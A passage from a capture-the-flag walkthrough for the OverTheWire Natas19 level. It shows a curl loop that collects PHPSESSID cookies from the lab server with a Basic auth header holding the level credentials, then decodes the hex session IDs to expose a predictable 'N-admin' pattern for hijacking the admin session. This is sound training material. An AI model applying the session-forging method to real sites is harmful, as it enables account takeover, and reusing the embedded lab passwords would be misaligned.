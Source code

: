 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

### Natas19

```markup
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

Please login with your admin account to retrieve credentials for natas20.
```

Lets bake some cookies.

```text
for n in {0..1000}; do
    curl -v -s 'http://natas19.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --data 'username=admin&password=password' 2>&1 | grep PHP
done

< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=332d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=342d61646d696e; path=/; HttpOnly
...
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633372d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633382d61646d696e; path=/; HttpOnly
```

And lets get all the unique PHPSESSID's and sort them.

```text
312d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
...
3633372d61646d696e
3633382d61646d696e
3633392d61646d696e
3634302d61646d696e
```

Looks like there is a fixed value and a variable value in the PHPSESSID

```text
XX     + 2d61646d696e
XXXX   + 2d61646d696e
XXXXXX + 2d61646d696e
```

The unfixed value is always 2 4 or 6 chars long. ASCII in HEX is 2 chars log. Let check that.

```text
~# xxd -ps -r phpsessionid.hex  phpsessionid.txt
~# cat phpsessionid.txt
1-admin
3-admin
4-admin
...
637-admin
638-admin
639-admin
640-admin
```
